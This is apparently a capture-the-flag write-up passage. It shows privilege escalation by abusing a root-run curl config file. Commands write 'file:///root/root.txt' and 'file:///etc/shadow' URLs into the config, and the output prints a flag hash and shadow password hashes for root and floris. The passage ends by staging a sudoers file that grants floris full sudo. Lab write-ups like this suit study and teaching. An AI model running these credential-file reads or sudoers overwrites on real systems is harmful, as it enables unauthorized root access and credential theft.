 	echo 'url = "file:///root/root.txt"' > input 
	watch -n 1 cat report

`82c198ab6fc5365fdc6da2ee5c26064a`

```bash
echo 'url = "file:///etc/shadow"' > input 
watch -n 1 cat report
```

	root:$6$RIgrVboA$HDaB29xvtkw6U/Mzq4qOHH2KHB1kIR0ezFyjL75DszasVFwznrsWcc1Tu5E2K4FA7/Nv8oje0c.bljjnn6FMF1:17673:0:99999
	:7:::
	floris:$6$yl7KKyGaOhVExlCb$ONJceChbI7srpLlJ/AhCLgESU7E4gXexPVgsJMjvQ0hP.6fwslfwWmD15cuaYs9./Jin4e/4LURPgEBav4iv//:176
	73:0:99999:7:::

### Get root

	man curl
	
```
-K, --config <file>
Specify a text file to read curl arguments from. The command line arguments found in the text file will be used as if they were provided on the command line.
```

```
# --- Example file ---
		# this is a comment
		url = "example.com"
		output = "curlhere.html"
		user-agent = "superagent/1.0"
```

#### Get root using sudoers

Prepare sudoers host:

```bash
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL
floris  ALL=(ALL:ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL
```
